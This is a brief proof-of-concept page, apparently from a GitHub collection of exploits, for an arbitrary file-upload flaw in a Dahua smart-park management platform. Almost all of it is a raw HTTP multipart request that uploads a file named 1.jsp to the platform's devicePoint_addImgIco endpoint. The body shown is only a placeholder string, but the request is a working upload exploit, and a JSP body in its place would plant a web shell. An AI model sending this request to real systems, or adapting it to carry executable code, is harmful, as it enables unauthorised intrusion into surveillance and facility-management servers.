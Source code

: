 # dahua_hasSubsystem_fileupload

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Java/1.8.0_345
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 229
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123456
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8E/%E5%A4%A7%E5%8D%8E%E6%99%BA%E6%85%A7%E5%9B%AD%E5%8C%BA%E7%BB%BC%E5%90%88%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0hasSubsystem%E5%AD%98%E5%9C%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
